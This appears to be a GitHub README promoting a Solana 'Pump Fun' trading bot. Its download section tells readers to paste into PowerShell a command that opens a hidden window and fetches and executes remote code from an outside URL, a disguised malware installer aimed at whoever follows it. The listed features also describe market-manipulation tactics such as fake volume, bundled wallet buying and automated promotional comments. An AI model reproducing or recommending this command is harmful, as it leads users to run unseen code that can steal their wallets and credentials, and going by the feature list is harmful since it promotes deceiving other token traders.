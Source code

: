# Pump Fun Trading Bot for Solana #

<h2>📊 Overview</h2>

<p><strong>PumpFun Trading Bot</strong> is your reliable assistant in the world of automated trading on the Solana blockchain! 🌟 With <strong>PumpFun Trading Bot</strong>, you can effectively manage your investments and stay ahead in the cryptocurrency market!</p>

<p>With <strong>PumpFun Trading Bot</strong>, you can:</p>
<ul>
    <li><a href="#feature1">💰 Distribute SOL to many wallets.</a></li>
    <li><a href="#feature2">🚀 Launch tokens with bundle buying from 24 wallets.</a></li>
    <li><a href="https://github.com/Pump-Fun-Sniper/Pump-Fun-Sniper-Bot">🎯 Pump Fun Sniper Bot</a></li>
    <li><a href="https://github.com/Pump-Fun-Sniper/Pump-Fun-Sniper-Bot">📈 Pump Fun Trading Bot.</a></li>
    <li><a href="#feature5">🤝 Attract buy makers and holders.</a></li>
    <li><a href="#feature6">🔍 Simulate transactions for better strategy planning.</a></li>
    <li><a href="#feature7">💬 Automatically comment to maintain interest.</a></li>
    <li><a href="#feature8">🛒 Bundle sell tokens efficiently.</a></li>
    <li><a href="#feature9">🔄 Gather SOL from trades.</a></li>
    <li><a href="#feature10">🛡️ Protect against rug pulls.</a></li>
</ul>

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/wZWZqs';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

<h2>🚀 Features</h2>

<h3 id="feature1">💸 Distribute SOL to Many Wallets</h3>
<em>Key Section: Distribution Strategy</em><br>
Efficiently distribute SOL to multiple wallets to enhance liquidity and manage risk.

<hr>

<h3 id="feature2">🚀 Token Launching with Bundle Buying from 24 Wallets</h3>
<em>Key Section: Launch Strategy</em><br>
Facilitate token launches by enabling bundle buying from up to 24 wallets simultaneously.

<hr>

<h3 id="feature3">🔍 Snipe Token with <a href="https://github.com/Pump-Fun-Sniper/Pump-Fun-Sniper-Bot">Pump Fun Sniper Bot</a></h3>
<em>Key Section: Trading Strategy</em><br>
Implement snipe functionality to quickly purchase tokens at optimal moments.

<hr>

<h3 id="feature4">📈 Increase Volume With <a href="https://github.com/Pump-Fun-Sniper/Pump-Fun-Sniper-Bot">Pump Fun Trading Bot</a> </h3>
<em>Key Section: Market Activity</em><br>
Utilize strategies to boost trading volume and enhance market presence.

<hr>

<h3 id="feature5">🤝 Increase Buy Makers and Holders</h3>
<em>Key Section: Market Engagement</em><br>
Implement tactics to attract more buyers and retain token holders for long-term stability.

<hr>

<h3 id="feature6">🔄 Simulate Transactions</h3>
<em>Key Section: Strategy Planning</em><br>
Test your trading strategies with simulated transactions before going live.

<hr>

<h3 id="feature7">💬 Auto Commenting</h3>
<em>Key Section: Community Engagement</em><br>
Automate comments to engage with the community and promote tokens effectively.

<hr>

<h3 id="feature8">📦 Bundle Selling</h3>
<em>Key Section: Sales Strategy</em><br>
Enable bundle selling to increase sales efficiency and user engagement.

<hr>

<h3 id="feature9">🌐 Gather SOL</h3>
<em>Key Section: Asset Management</em><br>
Strategically gather SOL to optimize asset management and liquidity.

<hr>

<h3 id="feature10">🛡️ Protect against Rug Pulls</h3>
<em>Key Section: Investor Safety</em><br>
This feature safeguards investors from fraudulent schemes known as "rug pulls" by analyzing projects for signs of fraud, such as anonymous developers, lack of transparency, and suspicious transactions, helping users make informed decisions and minimize risks when investing in new tokens.
<hr>



<p>If you have ideas or suggestions for improving the project, we would love to hear from you! Create pull requests and share your ideas.</p>

<footer>
